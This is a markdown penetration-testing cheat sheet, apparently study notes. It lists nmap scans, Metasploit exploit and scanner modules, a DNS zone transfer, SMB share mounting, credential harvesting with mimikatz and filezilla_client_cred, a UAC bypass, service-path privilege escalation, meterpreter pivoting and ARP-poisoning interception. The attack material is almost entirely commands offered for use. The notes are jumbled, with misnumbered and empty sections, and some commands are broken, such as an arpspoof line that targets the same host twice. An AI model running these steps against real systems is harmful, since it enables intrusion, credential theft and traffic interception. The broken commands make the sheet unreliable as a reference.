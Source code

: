 ## CheatSheet 

### 1.Most used nmap command

#### 1.1 NMAP
    - scan -Pn -sn TARGET                 : Search all alive host with or without open ports 
    - scan -sV -n TARGET                  : Fingerprint all exposed services
    - scan -sV -n TARGET -p SEVICE_PORT   : Fingerprint a specific exposed service
    - scan -O -n TARGET                   : Find Operating System

#### 1.2 Metasploit
    - auxiliary/scanner/smb/smb_version 
    - auxiliary/scanner/portscan/tcp
    
### 3.DNS Misconfiguration

    - dig @authorative_dns_server -t axfr DOMAIN      :    Exploiting zone transfer to display all subdomains
    - Exploiting zone transfer to display zone

### 2.SMB Misconfiguration

    #### 2.1 Mount shared drive : 
       - Linux   : mount -t cifs -o user=USER,password=PWD,rw //IP/share
       - Windows : net use K: \\IPTarget\SharedDrive

   #### 2.2
      exploit/windows/smb/psexec
      exploit/windows/smb/smb_relay
      auxiliary/scanner/smb/smb_login
      auxiliary/scanner/smb/smb_enumshares

   #### 2.3 Check Null session (Anynomous Access)
   smbclient -L IPTarget
   

### 4.Exploitation


### 3.Post Exploitation

#### 3.0 Infor Gathering
run winenum
run arp_scanner –r TargetNetworkSubnet
run post/multi/gather/filezilla_client_cred

#### 3.1 Privilege Escalation

##### 3.1.1 All OS

      getsystem
      post/windows/gather/win_privs        : Check if UAC enabled
      exploit/windows/local/bypassuac      : Local exploit to bypass UAC

    - Method 1 : Search Local Exploit using MSF
    - Method 2 : Impersonate privileged users
       incognito
       mimikatz

##### 3.1.2 Via Windows Services 

    - Manually : 
        Search all services    
              ==> wmic service where 'NOT PathName like '%system32%' ' GET PathName, Name > list_srv.txt       
        For each service check if user can write in the service Path 
              ==> icacls “Path”

   - Using powerUp.ps1 script
   - 
        
##### 3.1.3 Specific Linux

#### 3.3 Pivoting
   route add 192.168.4.0 (subnet) 255.255.255.0(mask) 6(session)
   portfarwarding (meterpreter) ==> portfwd victimeIP -p ServicePort add -L 127.0.0.1 -l LocalPort -r

### 5.Sniffing

#### 5.1 MiTM between vtcim1 & victm2 using arp poisonning
* arpspoof -i tap0 -t vic1_IP -r vic2_IP
*  arpspoof -i tap0 -t vic2_IP -r vic2_IP
